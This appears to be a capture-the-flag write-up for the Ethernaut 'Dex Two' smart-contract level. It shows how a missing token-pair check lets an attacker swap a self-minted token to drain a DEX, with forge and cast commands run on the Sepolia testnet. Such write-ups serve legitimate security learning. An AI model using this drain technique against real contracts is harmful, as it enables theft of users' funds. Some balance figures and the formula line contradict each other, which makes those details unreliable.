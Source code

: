 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      | User |      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 |
| 0       |    0 |  400 |  110 |  110 |    0 |

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x659BFCd93A970941C49d54591A117d75042281A6

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 400
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0xaa361215bdf3f8756b8d9646da8a6eba68d36ed4ff9db451fa3f336effbbf209

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xa134cdb28083dc2ec49789336be65724241aacf9c095312ca60956d3e671717c
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

## Fix

